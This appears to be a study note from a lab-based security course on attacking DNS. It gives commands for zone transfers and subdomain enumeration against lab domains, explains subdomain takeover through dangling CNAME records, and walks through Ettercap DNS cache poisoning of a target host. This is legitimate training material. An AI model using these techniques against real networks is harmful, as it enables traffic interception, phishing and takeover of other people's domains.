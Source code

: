 # Attacking DNS

## DNS Zone Transfer

```bash
bluechat@htb[/htb]# dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
bluechat@htb[/htb]# fierce --domain zonetransfer.me
bluechat@htb[/htb]# ./subfinder -d inlanefreight.com -v
bluechat@htb[/htb]$ ./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt
```

`Domain Takeovers` is registering non-existent domain names to gain control over another. If we find an expired domain, we can claim that domain to perform further attacks such as hosting malicious content on a website or sending a phishing email.

A DNS's canonical name `(CNAME)` record is used to map different domains to a parent. Many companies use third-party services like AWS, Github, Akamai, Fastly and other CDNs to host their content. In this case, they usually create a subdomain and make it point to those services.

https://github.com/EdOverflow/can-i-take-over-xyz

## DNS Spoofing

Typically proctoring with a MITM attack
or Exploiting a vuln found in a DNS server

### Local DNS Cache Poisoning

```bash
bluechat@htb[/htb]# cat /etc/ettercap/etter.dns

inlanefreight.com      A   192.168.225.110
*.inlanefreight.com    A   192.168.225.110
```

Start `Ettercap` and scan for Hosts > Scan for Hosts, add victim to Target 1 and default gateway to Target 2
Activate `dns_spoof` with `Plugins > Manage Plugins`.